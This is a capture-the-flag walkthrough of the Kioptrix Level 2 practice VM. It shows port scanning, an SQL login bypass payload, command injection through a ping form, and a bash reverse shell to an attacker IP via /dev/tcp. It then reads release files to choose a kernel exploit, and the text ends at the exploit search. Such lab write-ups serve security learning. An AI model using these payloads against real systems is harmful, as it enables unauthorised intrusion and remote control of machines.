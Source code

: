 # Kioptrix Level 2 walk-through

### Initial portscan
----
- I always start with an initial port scan to see what ports are open.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/nmap_scan.png)

- ipp (internet printing protocol) port 631 was open, with version CUPS 1.1. I quickly searched with searchsploit and tried a quick python exploit but couldnt get it to work. There wasnt a lot of exploits available for that version so i decdided to move onto a more juicier port like 80.
--------
- Looking at the webserver on port 80, i tend to browse the website first, usually before or while i directory bruteforce. 
- At the main page it had a login form, so i had a feeling it was going to be a sql injection attack to gain remote access to the machine.
- Tried out a simple SQL auth bypass before i started diving into a more complicated SQL. Injection i tried `' OR 1=1 -- -` inside the username field, and password can be anything.

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/Screenshot_2022-02-10_21-35-37.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/SQL.png)

- Now theres a user input field and it says we can ping a machine on a network. So ill try to ping my attacker machine that im using.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping-screen.png)
- Looks like we can ping our own machine   
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping_test.png)

- So it looks like its using the OS ping command, which we can try to command stack using   `;  &&  ||`  to get a reverse shell
- Testing command stacking with the command `; id`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/id_test.png)
----------
- lets try a reverse shell using bash. `; bash -i >& /dev/tcp/10.0.2.6/443 0>&1`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_code.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_rev_shell.png)

- wooo! success we have a shell on the machine! we are apache user with low privileges so lets try to get root.
- from the previous image, we can see the kernal is 2.6.9-55. I usually like to look at the privileges the user has and what kernal version is running once i get access to the machine.
- I used searchsploit to search "kernel 2.6"....and there was a ton of exploits that poped up. I decided to see if i can find the OS to help me narrow it down.


- `uname -a` was not much help to determine OS type. So i used the command `cat  /etc/*-release`. 
- Its running CentOS 4.5
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/OS.png)

- Now i can use this info to narrow down my exploit search.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/searchsploit.png)


